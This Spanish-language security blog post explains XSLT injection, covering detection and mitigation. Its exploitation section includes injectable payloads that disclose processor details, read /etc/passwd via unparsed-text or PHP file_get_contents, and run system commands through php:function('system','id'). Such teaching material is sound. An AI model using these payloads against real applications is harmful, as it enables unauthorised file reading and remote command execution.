 ```yaml
---
date: 2025-10-22T21:34:05.000Z
layout: post
comments: true
title: "eXtensible Stylesheet Language Transformation Injection"
subtitle: 'XSLT'
description: >-
image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/xsltlogo.png
optimized_image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/xsltlogo.png
category: ciberseguridad
tags:
  - web
  - rce
  - owasp
  - php
  - xslt
author: Felipe Canales Cayuqueo
paginate: true
---
```


XSLT es un lenguaje para transformar documentos XML mediante plantillas (```<xsl:template>```) y expresiones como ```<xsl:for-each>```, ```<xsl:value-of>```, ```<xsl:sort>``` y ```<xsl:if>```, lo que permite construir salidas arbitrarias (por ejemplo HTML) a partir de datos XML. Las plantillas seleccionan nodos XML mediante rutas y pueden iterar, filtrar y ordenar los datos antes de imprimirlos, por lo que XSLT es útil para definir formatos reutilizables y enriquecidos a partir de XML.

La inyección XSLT ocurre cuando la entrada del usuario se incorpora sin saneamiento al propio documento XSLT; así, un atacante puede insertar elementos XSL maliciosos que el procesador ejecutará (por ejemplo, rutas adicionales, condiciones o inclusiones), provocando divulgación de datos o comportamientos no deseados. Para minimizar este riesgo, la entrada del usuario nunca debe concatenarse directamente en plantillas XSLT: hay que validarla, escapar o usar mecanismos seguros para pasar datos como parámetros en lugar de modificar la estructura XSLT.

### Identificación

Para poder evaluar si una aplicación es vulnerable, debemos ingresar el siguiente payload:

```
<
```

Como podemos ver, la aplicación web responde con un error del servidor. Si bien esto no confirma que exista una vulnerabilidad de inyección XSLT, podría indicar su presencia.

### Explotación

#### Divulgación de información

Podemos obtener información básica sobre el XSLT

```
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

#### Local File Inclusion

XSLT contiene una función ```unparsed-text``` que se puede utilizar para leer un archivo local.

```
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

Destacar que el payload anterior solo funciona en la versión 2.0 de XSLT. Por lo tanto, nuestra aplicación web de muestra no admite esta función y, en cambio, genera un error. Sin embargo, si la biblioteca XSLT está configurada para admitir funciones PHP, podemos llamar a la función PHP ```file_get_contents```.

```
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

#### Ejecución remota de comandos (RCE)

Si un procesador XSLT admite funciones PHP, podemos llamar a una función PHP que ejecuta un comando del sistema local para obtener RCE.

```
<xsl:value-of select="php:function('system','id')" />
```

### Recomendaciones

Para prevenir la inyección XSLT, es fundamental evitar insertar directamente datos proporcionados por el usuario en las plantillas XSL, y en caso de que sea necesario, aplicar una validación y desinfección exhaustiva de la entrada. También se recomienda codificar los caracteres HTML especiales (por ejemplo, reemplazar ```<``` y ```>``` por ```&lt;``` y ```&gt;```) antes de procesar la plantilla, para impedir la inserción de elementos XSL maliciosos. Como medidas adicionales de seguridad, conviene ejecutar el procesador XSLT con privilegios mínimos, deshabilitar funciones externas (como las de PHP o llamadas al sistema) y mantener la biblioteca XSLT actualizada, reduciendo así la posibilidad y el impacto de una posible explotación.

